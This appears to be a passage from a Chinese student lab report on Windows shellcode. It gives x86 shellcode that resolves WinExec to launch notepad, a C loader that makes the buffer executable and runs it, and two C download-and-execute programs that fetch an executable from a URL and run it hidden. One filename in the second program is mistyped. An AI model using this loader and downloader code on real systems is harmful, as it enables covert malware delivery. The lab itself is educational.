\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x83\xff\xff\xff\x31\xd2\x52\xff\xd0
```

用上述的二进制得到：

```c++

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x68"
"\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89\xe3"
"\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51"
"\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x83\xff"
"\xff\xff\x31\xd2\x52\xff\xd0";

int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)()) code;
	(int)(*func)();
}
```

运行得到：



### （5）(选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFile

>补充知识点：
>
>**shellcode最重要的方式是获得函数地址，有两种方式；用GetProcAddress函数获取函数地址，或者用CreateProcess(或WinExec())遍历导出表。**
>
>+ 生成main.exe时的源文件最好用c而不是cpp的原因：
>  + c++底层是对象的思想，c的底层是地址的思想。所以：当漏洞利用到强制类型转换，最好使用c。

+ 法一：

  ```c++
  #include<Windows.h>
  #include<Urlmon.h>
  int main()
  {
  	URLDownloadToFile(NULL, "http://xxx/ov.exe",  "a.exe", 0, NULL);//自己搭建一个网站，可以使用python -m http.servce 来搭建一个本地服务，然后添加本地的ip地址即可。
  	WinExec("a.exe",SW_HIDE);//或者CreateProcess()
  }
  ```

+ 法二：

  + kernel.dll由于其包含进行运行的基本函数，一般情况会被加载到内存中。其中包含LoadLibrary和GetProcAddress两个API，其中LoadLibrary可以加载我们需要的dll：urlmon.dll，加载完成后，urlmon.dll中的函数会在内存中，使用GetProcAddress即可找到API:URLDownloadToFileA在内存中的地址。之后，便可以利用函数指针的方式调用URLDownloadToFileA函数，去指定的网站上下载东西，最后用WinExec即可完成一次攻击。

  ```c++
  #include <urlmon.h>
  #include <Windows.h>
  typedef HRESULT(WINAPI* MY)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
  
  int main() {
  	HMODULE hurlmod = LoadLibrary("urlmon.dll");
  	MY function_ptr = (MY)GetProcAddress(hurlmod, "URLDownloadToFileA");
  	function_ptr(
  		NULL,
  		"http://localhost:8000/main.exe",		
  		"main.exe",				
  		0,
  		NULL
  	);
  	WinExec("m7ain.exe", SW_HIDE);
  }
  ```

+ 第二个代码遇到的问题：

    + python环境有点儿问题，无法下载http.service,无法再本地开启一个服务；

      + 已解决：使用anaconda来管理python版本，使之不再混乱，目前可以安装各种包。

      + 命令是`python -m http.server`(需要再包含目标程序的路径下打开anaconda的powershell或者打开powershell后切换路径，这样再浏览器访问的时候才可以下载到main.exe)

        

        

    + main.exe是第四题的得到的运行notepad的exe文件，需要使用上面的cpp源码生成exe可执行文件。从上述的运行notepad.exe的c代码中编译链接得到exe的过程，报错：

      ​	

      + (曲线救国)使用codeblock编译得到正确的main.exe：

        


+ 最后的结果：

  

## 参考文献

+ https://www.cnblogs.com/iBinary/p/9739031.html